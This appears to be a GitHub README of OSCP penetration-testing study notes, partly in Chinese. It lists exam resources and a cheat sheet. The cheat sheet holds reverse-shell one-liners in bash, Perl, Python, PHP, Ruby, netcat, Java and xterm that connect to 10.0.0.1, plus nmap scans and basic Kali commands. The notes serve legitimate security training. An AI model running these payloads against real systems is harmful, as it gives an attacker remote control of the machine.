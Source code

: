 # OSCP learning

## 官方

* [官方考试说明](https://www.lshack.cn/wp-content/uploads/2019/02/lshack.cn_2019-02-12_09-29-54.pdf)
* [PWK FAQ](https://support.offensive-security.com/#!pwk-general-questions.md)
* [OSCP exam FAQ](https://support.offensive-security.com/oscp-faq/)
* [IRC](https://www.offensive-security.com/offsec-irc-guide/)

## 考试报名

## 资料链接

* [windows exploit](https://github.com/abatchy17/WindowsExploits)
* [OSCP like vulnhub](https://medium.com/@andr3w_hilton/oscp-training-vms-hosted-on-vulnhub-com-22fa061bf6a1)

## cheetsheet 

### 反弹 shell

#### Bash 

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

#### PERL 

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Python(2.7)

```python 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

#### Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

#### Netcat

`nc -e /bin/sh 10.0.0.1 1234`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

#### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### xterm 

`xterm -display 10.0.0.1:1`


### nmap 

#### 端口探测

```
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
```

```
nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
```




### Kali Linux

* 设置目标机器 IP 地址为系统变量
`export ip=192.168.1.0`
* 定位文件
`locate sbd.exe`
* 在 `$PATH` 环境变量里查找目录 `which sbd`
* 展示活动互联网链接 `netstat -lntp`
* 修改密码 `paswd`
* 验证服务是否正在运行并监听 `netstat -antp |grep apache`
* 启动服务 `systemctl start ssh`
* 让服务在启动的时候开启 `systemctl enable ssh`
* 停止服务 `systemctl stop ssh`
* 解压 gz 文件 `gunzip access.log.gz`
* 解压 tar.gz 文件 `tar -xzvf file.tar.gz`
* 检索命令历史 `history |grep phrase_to_search_for`
* 下载网页 `wget https://www.baidu.com`
* 打开网页 `curl https://wwww.baidu.com`
* 字符串操作
  * 统计文件中行数
  `wc -l index.html`
  * 获取文件的开头或者结尾
  `head index.html`
  `tail index.html`
  * 提取包含某个字符串的所有行
  `grep "href=" index.html`
  
